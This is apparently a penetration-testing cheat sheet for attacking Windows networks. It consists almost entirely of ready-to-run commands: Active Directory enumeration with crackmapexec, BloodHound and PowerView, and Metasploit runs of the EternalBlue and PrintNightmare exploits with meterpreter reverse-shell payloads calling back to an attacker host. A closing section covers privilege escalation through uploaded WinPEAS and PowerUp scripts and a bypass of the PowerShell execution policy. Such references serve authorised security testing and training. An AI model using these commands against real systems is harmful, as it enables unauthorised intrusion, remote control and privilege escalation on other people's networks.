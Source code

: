 ## Windows Target Exploitation

### Information Gathering
```bash
# Active Directory enumeration
crackmapexec smb 192.168.1.0/24
bloodhound-python -u username -p password -d domain.local -ns 192.168.1.10

# PowerView (PowerShell AD enumeration)
powershell -ep bypass
. .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetComputer
Find-LocalAdminAccess
```

### Common Windows Exploits
```bash
# Using EternalBlue (MS17-010)
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit

# PrintNightmare (CVE-2021-34527)
use exploit/windows/dcerpc/cve_2021_1675_printnightmare
set RHOSTS 192.168.1.10
set SMBUser username
set SMBPass password
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Windows Local Privilege Escalation
```bash
# Upload and run privilege escalation scripts
meterpreter > upload WinPEAS.exe
meterpreter > shell
C:\> WinPEAS.exe

# PowerUp.ps1 for privilege escalation vectors
meterpreter > upload PowerUp.ps1
meterpreter > shell
C:\> powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"

# Common privilege escalation techniques
# Check for unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

# Check for weak service permissions
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc [service_name]
```
